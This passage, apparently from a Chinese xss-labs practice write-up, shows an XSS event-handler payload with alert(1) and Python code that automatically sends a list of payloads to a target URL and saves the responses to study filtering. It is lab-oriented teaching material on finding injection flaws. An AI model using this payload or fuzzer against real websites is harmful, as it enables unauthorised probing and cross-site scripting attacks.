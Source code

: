```js
"onclick"=javascript:alert(1)
```

![](./xss-labs.assets/18.png)

### 编写自动化脚本

我们发现我们会存在很多相同的操作
+ 如寻找测试点对测试点输入payload
+ 对其返回结果进行分析，判读其进行了怎样的过滤和编码

> 编码方式多种多样，过滤方式也比较多，如果通过手动的方式很有可能造成测试不全，


进行其实我们完全可以写一个自动测试脚本来提高我们的测试速度:
以下是我使用python代码编写的自动化脚本的一段核心代码。

<font color='red'>其实就是对设定好的测试点不断发送我们的 payload ，然后根据其返回结果去判断它对我们的payload做了怎样的过滤，消毒，编码等操作。 </font>


```python

    def load_payloads(self)->list:
        assert(os.path.exists(self.payload_path))
        with open(self.payload_path,'r') as fd:
            # todo checking 
            payloads = fd.readlines()
        payloads = [payloads[i].rstrip('\n') for i in range(len(payloads))]
        self.__payloads = payloads
        return payloads


    def inturder(self)->list: 
        assert(len(self.payloads) > 0)
        res_list = []
        for i in range(len(self.payloads)):
            response = requests.get(target_url+self.payloads[i])
            res_html = response.content.decode("utf-8") .splitlines(keepends=True)
            res_list.append(res_html)
        self.__result = res_list
        return res_list

    def save_injected_html(self):
        if os.path.exists(self.save_path):
            raise ValueError(f"{self.save_path} already exists.")
        os.makedirs(self.save_path)
        for i in range(len(self.result)):
            with open(os.path.join(self.save_path,'res'+str(i)),'w+',encoding='utf-8') as writer:
                writer.writelines(self.result[i])

    def circuit(self):
        self.load_payloads()
        self.inturder()
        self.save_injected_html()
```